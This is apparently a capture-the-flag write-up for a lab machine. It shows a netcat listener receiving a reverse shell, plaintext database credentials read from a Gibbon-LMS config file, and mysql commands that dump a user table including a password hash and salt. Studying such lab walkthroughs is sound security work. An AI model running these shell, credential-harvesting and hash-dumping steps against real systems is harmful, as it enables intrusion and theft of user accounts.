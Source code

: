```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.14] from (UNKNOWN) [10.10.11.60] 62333
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\Gibbon-LMS>whoami
whoami
frizz\w.webservice

```

found credentials inside C:\xampp\htdocs\Gibbon-LMS\config.php
```
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

inside C:\xampp\mysql\bin

> C:\xampp\mysql\bin>mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases"

```
C:\xampp\mysql\bin>mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases"                     
mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases"
Database
gibbon
information_schema
test
```


> mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "use gibbon;select * from gibbon"

read gibbon person table

> mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonPerson;"

```
mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonPerson;"
gibbonPersonID  title   surname firstName       preferredName   officialName    nameInCharacters        gender  username        passwordStrong  passwordStrongSalt      passwordForceReset      status  canLogin        gibbonRoleIDPrimary     gibbonRoleIDAll dob     email   emailAlternate  image_240       lastIPAddress   lastTimestamp   lastFailIPAddress       lastFailTimestamp       failCount       address1        address1District        address1Country address2address2District        address2Country phone1Type      phone1CountryCode       phone1  phone3Type      phone3CountryCode       phone3  phone2Type      phone2CountryCode       phone2  phone4Type      phone4CountryCode       phone4 website  languageFirst   languageSecond  languageThird   countryOfBirth  birthCertificateScan    ethnicity       religion        profession      employer        jobTitle        emergency1Name  emergency1Number1       emergency1Number2       emergency1Relationship  emergency2Name  emergency2Number1       emergency2Number2       emergency2Relationship  gibbonHouseID   studentID       dateStart       dateEnd gibbonSchoolYearIDClassOf       lastSchool      nextSchool      departureReason transport       transportNotes  calendarFeedPersonal    viewCalendarSchool      viewCalendarPersonal    viewCalendarSpaceBooking        gibbonApplicationFormID lockerNumber    vehicleRegistration     personalBackground      messengerLastRead       privacy dayType gibbonThemeIDPersonal   gibboni18nIDPersonal    studentAgreements       googleAPIRefreshToken   microsoftAPIRefreshToken        genericAPIRefreshToken  receiveNotificationEmails       mfaSecret       mfaToken        cookieConsent   fields
0000000001      Ms.     Frizzle Fiona   Fiona   Fiona Frizzle           Unspecified     f.frizzle       067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03        /aACFhikmNopqrRTVz2489  N       Full    Y       001    001      NULL    f.frizzle@frizz.htb     NULL    NULL    ::1     2024-10-29 09:28:59     NULL    NULL    0                                                                                                                              NULL             NULL    NULL    NULL                                                    Y       Y       N       NULL                            NULL    NULL    NULL    NULL    NULL    NULL                            Y       NULL   NULL     NULL
```